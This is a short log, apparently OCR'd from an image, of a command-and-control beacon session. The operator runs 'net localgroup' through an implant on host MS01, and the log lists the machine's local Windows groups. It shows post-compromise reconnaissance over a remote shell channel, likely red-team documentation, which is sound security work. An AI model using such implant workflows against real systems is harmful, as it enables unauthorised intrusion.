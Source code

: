 ```
[10/06 16:38:41] beacon> shell net localgroup
[10/06 16:38:41] [*] Tasked beacon to run: net localgroup
[10/06 16:38:42] [+] host called home, sent: 45 bytes
[10/06 16:38:42] [+] received output:


Aliases for \\MS01



-------------------------------------------------------------------------------

*Access Control Assistance Operators

*Administrators

*Backup Operators

*Certificate Service DCOM Access

*Cryptographic Operators

*Distributed COM Users

*Event Log Readers

*Guests

*Hyper-V Administrators

*IIS_IUSRS

*Network Configuration Operators

*Performance Log Users

*Performance Monitor Users

*Power Users

*Print Operators

*RDS Endpoint Servers

*RDS Management Servers

*RDS Remote Access Servers

*Remote Desktop Users

*Remote Management Users

*Replicator

*Storage Replica Administrators

*System Managed Accounts Group

*Users

The command completed successfully.


```